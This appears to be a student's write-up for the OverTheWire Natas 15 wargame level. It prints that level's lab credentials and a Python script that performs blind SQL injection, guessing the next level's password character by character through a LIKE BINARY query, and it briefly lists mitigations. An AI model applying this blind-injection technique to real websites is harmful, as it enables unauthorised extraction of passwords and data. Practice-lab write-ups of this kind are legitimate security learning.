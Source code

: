 
---
### Natas 15

#### Credentials
natas15
TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB

#### How you passed the challenge
Built python script that brute force based on binary LIKE password characters.

#! /bin/python
import requests, string
url = "http://natas15.natas.labs.overthewire.org"
username = "natas15"
password = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"
characters = ''.join([string.digits, string.ascii_letters])
passchar = []
exists_str = "This user exists"
"""
for c in characters:
    uri = ''.join([url, '?' , 'username=natas16"', '+and+password+LIKE+BINARY+"%' ,c, '%' , '&debug' ])
    r = requests.get(uri, auth=(username, password))
    if exists_str in r.text:
        passchar.append(c)
        print("> {0}".format(''.join(passchar)))
print("Character List: {0}".format(''.join(passchar)))

"""
secret =''
passchar = ['2','3','5','7','9','a','d','f','g','i','j','k','l','q','r','u','A','D','E','H','O','P','R','T','V','Z']
for place in range(1,33):
    print ("Character# <1".format(str(place)))
    for char in passchar:
        temp = ''.join([secret,char])
        uri = ''.join([url, '?' , 'username=natas16"', '+and+password+LIKE+BINARY+"' ,temp, '%' , '&debug' ])
        r = requests.get(uri, auth=(username, password))
        if exists_str in r.text:
            secret += char
            print("Password : {}".format(secret))


#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
ensure data sanitization and limit password attempts to counter brute force attack.


---
### Natas 16

